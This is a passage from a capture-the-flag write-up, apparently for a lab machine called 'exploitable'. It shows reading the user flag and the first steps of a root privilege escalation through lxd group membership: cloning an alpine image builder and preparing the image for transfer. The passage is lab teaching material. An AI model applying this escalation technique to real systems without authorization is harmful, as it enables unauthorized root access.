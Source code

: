   john@exploitable:~$ ls -al
  total 60
  drwxr-xr-x 8 john john  4096 Jul 27  2020 .
  drwxr-xr-x 3 root root  4096 Feb  5  2020 ..
  lrwxrwxrwx 1 john john     9 Jul 27  2020 .bash_history -> /dev/null
  -rw-r--r-- 1 john john   220 Apr  4  2018 .bash_logout
  -rw-r--r-- 1 john john  3771 Apr  4  2018 .bashrc
  drwx------ 2 john john  4096 Feb  5  2020 .cache
  drwxr-x--- 3 john john  4096 Jul 27  2020 .config
  drwx------ 3 john john  4096 Feb  5  2020 .gnupg
  drwxrwxr-x 3 john john  4096 Jul 27  2020 .local
  -rw-r--r-- 1 john john   807 Apr  4  2018 .profile
  drwx------ 2 john john  4096 Feb  5  2020 .ssh
  -rw-r--r-- 1 john john     0 Feb  5  2020 .sudo_as_admin_successful
  -rw-rw-r-- 1 john john    33 Feb  5  2020 user.txt
  drwxr-xr-x 2 root root  4096 Feb  5  2020 .vim
  -rw------- 1 root root 12070 Jul 27  2020 .viminfo
  
  john@exploitable:~$ cat user.txt 
  a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
  ```
  
- Moving to escalation.

---

## 👑 Root Privilege Escalation

- OK, so here I spent a lot of time enumerating and trying to find any sort of exploitation, but couldn't. After googling for a while, I found that group `(lxd)` is our way to root, which I already saw after logging in but didn't know what it is.

  ```
  john@exploitable:~$ id
  uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
  
  john@exploitable:~$ which lxd
  /usr/bin/lxd
  
  john@exploitable:~$ which lxc
  /usr/bin/lxc
  ```
  
- Perfect, since target machine already has both `lxd` and `lxc` installed we can move to exploitation immediately.
  
- First, on your Kali, clone this repo and move to it. You will see inside a file `alpine-v3.13-x86_64-20210218_0139.tar.gz`, that's our way in.

  ```
  git clone https://github.com/saghul/lxd-alpine-builder.git
  cd lxd-alpine-builder
  ```

- If for some reason you don't have the image aka `.tar.gz` file, use `sudo ./build-alpine` and it will create alpine image for you.
  For me, it crashed when I used it due to missing key, but `.tar.gz` was already there so I could still exploit the machine as long as I have the image file.
  So remember, you can do the exploitation as long as you have image file, don't extract it nor anything, keep it as it is and move it to target machine.

- For simpler use, move the file somewhere else and change it's name.

  ```cp alpine-v3.13-x86_64-20210218_0139.tar.gz /path/to/wherever/alpine.tar.gz```

  ```